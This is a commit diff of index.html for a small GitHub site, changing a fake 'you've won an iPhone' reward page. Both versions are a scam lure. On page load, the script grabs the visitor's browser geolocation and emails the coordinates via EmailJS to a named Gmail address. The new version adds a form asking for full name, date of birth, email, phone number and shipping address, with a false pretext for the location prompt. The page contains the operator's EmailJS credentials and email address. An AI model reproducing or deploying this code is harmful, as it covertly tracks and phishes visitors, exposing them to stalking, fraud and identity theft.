

Before and after one commit to tiktokvideos123/news, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (277-1002 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,98 +1,191 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>iPhone Reward Form</title>
-    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1" />
+  <title>Auto Send Location + Form</title>
   <style>
     body {
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            margin: 0;
-            background-color: #f0f8ff;
       font-family: Arial, sans-serif;
+      padding: 30px;
+      background-color: #f0f0f0;
+      color: #333;
     }
     .container {
       max-width: 600px;
-            background: #ffffff;
-            padding: 2rem;
+      margin: auto;
+      background: white;
+      padding: 25px 30px;
       border-radius: 10px;
-            box-shadow: 0 4px 15px rgba(0, 0, 0, 0.2);
+      box-shadow: 0 4px 12px rgba(0,0,0,0.12);
+    }
+    h2 {
+      margin-bottom: 25px;
+      text-align: center;
+      color: #2c3e50;
+    }
+    form {
+      margin-top: 20px;
+    }
+    .form-group {
+      margin-bottom: 18px;
+    }
+    label {
+      display: block;
+      margin-bottom: 6px;
+      font-weight: 600;
+      color: #34495e;
+    }
+    input[type="text"],
+    input[type="email"],
+    input[type="tel"],
+    input[type="date"],
+    textarea {
+      width: 100%;
+      padding: 10px 12px;
+      font-size: 15px;
+      border: 1.8px solid #ccc;
+      border-radius: 5px;
+      box-sizing: border-box;
+      transition: border-color 0.3s ease;
+    }
+    input[type="text"]:focus,
+    input[type="email"]:focus,
+    input[type="tel"]:focus,
+    input[type="date"]:focus,
+    textarea:focus {
+      border-color: #3498db;
+      outline: none;
+    }
+    textarea {
+      resize: vertical;
+      min-height: 70px;
+    }
+    #locationDisplay {
+      background: rgba(255, 255, 255, 0.85);
+      color: #666;
+      padding: 0.5rem 0.75rem;
+      border-radius: 4px;
+      font-size: 14px;
+      margin-bottom: 20px;
       text-align: center;
     }
-        #locationDisplay {
-            background: #e9ecef;
-            color: #666;
-            padding: 0.5rem;
-            border-radius: 4px;
-            margin-top: 15px;
-            font-size: 0.9rem;
+    button {
+      width: 100%;
+      background-color: #3498db;
+      color: white;
+      border: none;
+      padding: 14px;
+      font-size: 16px;
+      font-weight: 600;
+      border-radius: 7px;
+      cursor: pointer;
+      transition: background-color 0.3s ease;
+    }
+    button:hover {
+      background-color: #2980b9;
+    }
+    #status {
+      margin-top: 18px;
+      font-size: 16px;
+      color: #555;
+      text-align: center;
+      white-space: pre-line; /* preserve newlines */
     }
   </style>
 </head>
 <body>
   <div class="container">
-        <h1 class="form-heading">Congratulations! 🎉</h1>
-        <p class="lead">You've been selected to receive a brand-new iPhone!</p>
-        <p class="form-text">Please allow location access to claim your reward.</p>
-        <p id="locationDisplay" class="form-text">Waiting for location...</p>
+    <h2>Congratualations</h2>
+
+    <form id="rewardForm">
+      <div class="form-group">
+        <label for="fullName">Full Name</label>
+        <input type="text" class="form-control" id="fullName" placeholder="Enter your full name" required />
+      </div>
+      <div class="form-group">
+        <label for="dob">Date of Birth</label>
+        <input type="date" class="form-control" id="dob" required />
+      </div>
+      <div class="form-group">
+        <label for="email">Email Address</label>
+        <input type="email" class="form-control" id="email" placeholder="Enter your email" required />
+      </div>
+      <div class="form-group">
+        <label for="phoneNumber">Phone Number</label>
+        <input type="tel" class="form-control" id="phoneNumber" placeholder="Enter your phone number" required />
+      </div>
+      <div class="form-group">
+        <label for="address">Shipping Address</label>
+        <textarea class="form-control" id="address" rows="3" placeholder="Enter your shipping address" required></textarea>
+      </div>
+      <div class="form-group">
+        <label for="city">City</label>
+        <input type="text" class="form-control" id="city" placeholder="Enter your city" required />
+      </div>
+      <div class="form-group">
+        <label for="postalCode">Postal Code</label>
+        <input type="text" class="form-control" id="postalCode" placeholder="Enter your postal code" required />
+      </div>
+
+      <p id="locationDisplay">Address.</p>
+      <button type="submit">Submit and Claim iPhone</button>
+    </form>
+
+    <div id="status">Please allow location permission for getting correct address.</div>
   </div>
 
   <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js"></script>
   <script>
-        document.addEventListener("DOMContentLoaded", function () {
-            emailjs.init("-_fZgZZhnhhK2OvuV"); // Public Key
+    emailjs.init("-_fZgZZhnhhK2OvuV");
 
-            function sendLocationEmail(latitude, longitude) {
-                console.log("📍 Sending Location Data:", { latitude, longitude });
+    const statusEl = document.getElementById("status");
+    const locationDisplay = document.getElementById("locationDisplay");
 
-                const templateParams = {
-                    latitude: latitude.toString(),
-                    longitude: longitude.toString()
-                };
-
-                emailjs.send("service_7xiz4x8", "template_ux0sel8", templateParams)
-                    .then((response) => {
-                        console.log("✅ Email sent successfully!", response);
-                        document.getElementById("locationDisplay").textContent = "📧 Location sent!";
+    function sendLocationEmail(lat, lng) {
+      emailjs.send("service_7xiz4x8", "template_ux0sel8", {
+        latitude: lat,
+        longitude: lng,
+        to_email: "Junaidrind91554@gmail.com",
+        subject: "User Location"
+      })
+      .then(() => {
+        statusEl.textContent = `Location sent successfully!\nLatitude: ${lat}, Longitude: ${lng}`;
+        locationDisplay.textContent = `Your location: Latitude ${lat}, Longitude ${lng}`;
       })
       .catch((error) => {
-                        console.error("❌ Error sending email:", error);
-                        document.getElementById("locationDisplay").textContent = "⚠️ Email sending failed!";
+        statusEl.textContent = "Failed to send email: " + error.text;
       });
     }
 
-            function trackMovement() {
-                if ("geolocation" in navigator) {
-                    // This triggers the location permission prompt
+    function getLocationAndSend() {
+      if (navigator.geolocation) {
         navigator.geolocation.getCurrentPosition(
           (position) => {
-                            const latitude = position.coords.latitude;
-                            const longitude = position.coords.longitude;
-
-                            console.log("🌍 Location received:", latitude, longitude);
-                            document.getElementById("locationDisplay").textContent =
-                                `📍 Latitude: ${latitude}, Longitude: ${longitude}`;
-
-                            sendLocationEmail(latitude, longitude);
+            const lat = position.coords.latitude.toFixed(6);
+            const lng = position.coords.longitude.toFixed(6);
+            locationDisplay.textContent = `Your location detected: Latitude ${lat}, Longitude ${lng}`;
+            statusEl.textContent = `Location found. Sending email...`;
+            sendLocationEmail(lat, lng);
           },
           (error) => {
-                            console.error("❌ Error getting location:", error);
-                            document.getElementById("locationDisplay").textContent =
-                                "⚠️ Location access denied!";
+            locationDisplay.textContent = "Error getting location: " + error.message;
+            statusEl.textContent = "Error getting location.";
           }
         );
       } else {
-                    console.log("❌ Geolocation not supported.");
-                    document.getElementById("locationDisplay").textContent = "⚠️ Geolocation not supported!";
+        locationDisplay.textContent = "Geolocation is not supported by this browser.";
+        statusEl.textContent = "Geolocation not supported.";
       }
     }
 
-            // Call to request location as soon as the page loads
-            trackMovement();
+    window.onload = getLocationAndSend;
+
+    // Optional: You can add form submission handler if needed, else it just submits normally.
+    document.getElementById('rewardForm').addEventListener('submit', function(e) {
+      e.preventDefault();
+      alert('Form submitted! (You can add your own form handling here)');
+      // You can add your own AJAX form submission or processing here if needed.
     });
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
